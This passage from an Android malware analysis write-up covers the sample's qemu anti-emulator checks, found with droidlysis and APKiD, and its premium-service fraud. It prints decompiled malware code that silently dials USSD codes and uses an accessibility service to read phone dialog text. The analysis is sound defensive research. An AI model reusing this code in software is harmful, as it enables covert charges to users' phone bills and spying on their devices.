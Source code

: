 # Anti-emulator

I used our magic tool [droidlysis](https://github.com/cryptax/droidlysis) to get the Properties of the sample. I see the sample is checking if there's an qemu emulator.

<p align="center">
  <img src="2.png" />
</p>
<center><font size="3"> <u>Figure</u>(2) droidlysis result for qemu detection in sample code<u></u> </font></center>
<br>

Then I used [APKiD](https://github.com/rednaga/APKiD) tool to get more details of the anti-emulation technique's code. 
<p align="center">
  <img src="3.png" />
</p>
<center><font size="3"> <u>Figure</u>(3) APKiD result for anti-vm detection in sample code<u></u> </font></center>
<br>

# Premium services

The malware will try to subscribe to a premium service without the knowledge of the user which will charge the SIM more money.

```cs
private void launchUssdCode(Context context0, String s) throws Exception {
        this.ussdCalledTimeInMs = System.currentTimeMillis();
        Timber.d("log -> [%s]", new Object[]{s});
        Intent intent0 = new Intent("android.intent.action.CALL", Uri.parse("tel:" + s.replaceAll("#", Uri.encode("#"))));
        intent0.addFlags(0x10000000);
        intent0.addFlags(0x20000000);
        context0.startActivity(intent0);
    }

    public boolean onAccessibilityEvent(InjAccessibilityService injAccessibilityService0, AccessibilityEvent accessibilityEvent0, String s) {
        if(accessibilityEvent0 != null && accessibilityEvent0.getSource() != null && (s.equalsIgnoreCase("com.android.phone")) && (accessibilityEvent0.getClassName().toString().toLowerCase().contains("dialog")) && !accessibilityEvent0.getText().isEmpty()) {
            StringBuilder stringBuilder0 = new StringBuilder();
            for(Object object0: accessibilityEvent0.getText()) {
                stringBuilder0.append(" | ");
                stringBuilder0.append(((CharSequence)object0));
```